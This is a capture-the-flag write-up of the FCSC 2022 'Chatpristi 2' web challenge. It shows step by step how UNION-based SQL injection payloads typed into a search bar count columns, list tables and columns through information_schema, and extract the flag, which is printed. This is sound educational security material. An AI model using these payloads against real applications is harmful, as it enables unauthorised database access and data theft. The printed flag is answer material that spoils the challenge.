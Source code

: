 # Write-up: FCSC 2022 - Web Challenge - Chatpristi 2

## Challenge Description
The challenge consisted of a simple web application featuring a collection of cat memes and a search bar. As soon as I accessed the website, I noticed the search bar, which immediately caught my attention as a possible entry point for injection attacks.

---

## Reconnaissance
I started by exploring the web page to understand its layout and possible vulnerabilities. The search bar seemed like a great candidate to test for SQL Injection vulnerabilities, as such fields often interact with the database.

---

## SQL Injection Testing and Exploitation

### Step 1: Testing for the Number of Columns
To determine the number of columns in the vulnerable table, I began with a basic payload:

    ') UNION SELECT null --
  This produced an error indicating a column mismatch. I iteratively increased the number of null values until no error was returned:

    ') UNION SELECT null, null, null--
  This confirmed that the table had three columns.

  ![Alt Text](1.PNG)

### Step 2: Determining Column Data Types
  Next, I tested the data types for each column by replacing null with test values:

    ') UNION SELECT 1, 'a', 'a'--
  The query executed successfully, indicating the first column was of type int and the other two were string.

  ![Alt Text](2.PNG)

### Step 3: Enumerating Tables
  To identify all tables in the database, I executed the following payload:

    ') UNION SELECT 1, 'i', table_name FROM information_schema.tables--
   This listed all tables in the database. Among the results, one table stood out:
        
                  ___youw1lln3verfindmyfl4g___.

  ![Alt Text](3.PNG)

### Step 4: Enumerating Columns in the Target Table
   I then explored the columns of the target table using this payload:

    ') UNION SELECT 1, 'i', column_name FROM information_schema.columns WHERE table_name = '___youw1lln3verfindmyfl4g___'--
  The query returned two columns:

              id
              fstbg0adwb8f5upmg
              
  ![Alt Text](4.PNG)
    
### Step 5: Retrieving the Flag
  Finally, I crafted a payload to extract the contents of the table:

  ') UNION SELECT 1, id::text, fstbg0adwb8f5upmg FROM ___youw1lln3verfindmyfl4g___--

   This query revealed the flag stored in the table:

                    FCSC{edfaeb139255929e55a3cffe9f3f37cd4e871e5015c4d4ade2b02d77d44019e5}
  Final Results:
  
![Alt Text](5.PNG)

  
  The SQL injection exploitation confirmed the vulnerability and successfully extracted the flag.
